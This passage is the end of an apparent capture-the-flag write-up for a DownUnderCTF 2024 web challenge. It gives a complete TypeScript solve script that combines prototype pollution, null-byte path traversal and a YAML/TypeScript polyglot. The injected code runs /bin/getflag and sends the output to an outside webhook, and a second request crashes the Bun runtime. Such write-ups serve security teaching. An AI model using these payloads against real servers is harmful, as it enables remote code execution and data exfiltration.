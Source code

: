 ```
$ bun -e 'Bun.write("/proc/self/map_files/0-1000", "chicken"); await Bun.sleep(1000); console.log("a")' || echo failed
```

which _does_ error, print a message, and exit with a nonzero status!

So finally, we can whip up a YAML-TS polyglot, crash Bun (it deserves it), and solve:

```ts
// solve.ts

const remote = "https://web-prisoner-processor-06d3a48464e3f51f.2024.ductf.dev"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}?"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()));await new Promise(()=>{})/*`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
    "end": "*///"
}
let res0 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
console.log(await res0.text())

const payload1 = structuredClone(example)
payload1.data = {
    "sus": `surely this will cause a crash`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/map_files/0-1000\0" },
    ...payload1.data,
}
let res1 = await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload1)
})
console.log(await res1.text())
```

![flag](assets/flag.png)
